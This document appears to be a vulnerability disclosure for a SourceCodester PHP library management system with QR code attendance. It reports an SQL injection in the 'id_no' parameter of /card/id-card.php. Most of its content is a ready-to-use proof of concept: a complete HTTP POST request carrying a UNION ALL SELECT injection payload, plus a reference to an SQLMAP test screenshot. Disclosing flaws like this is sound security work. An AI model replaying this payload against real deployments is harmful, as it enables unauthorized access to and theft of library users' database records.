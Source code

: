 # Library Management System with QR code Attendance and Auto Generate Library Card - SQL injections



### Vendor Homepage: 

[https://www.sourcecodester.com](https://www.sourcecodester.com/)



### Software Link: 

https://www.sourcecodester.com/php/15434/library-management-system-qr-code-attendance-and-auto-generate-library-card.html





### /card/id-card.php

> `id_no`Parameters have SQL injection

**SQL injection POC**

```
POST /LMS/card/id-card.php HTTP/1.1
Host: 172.20.10.14
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 112
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=8l03mutpmr44pg0gv96afbujmn
Origin: http://172.20.10.14
Referer: http://172.20.10.14/LMS/card/id-card.php
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

id_no=' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716b707171,0x686a467041767a434e5574435a446348437562755059707141736f7047694178686e787163596d6e,0x717a6a7a71),NULL#&search=
```

**SQLMAP Test**

![image-20220804234643404](https://cdn.jsdelivr.net/gh/beytagh001/blog-img/image-20220804234643404.png)















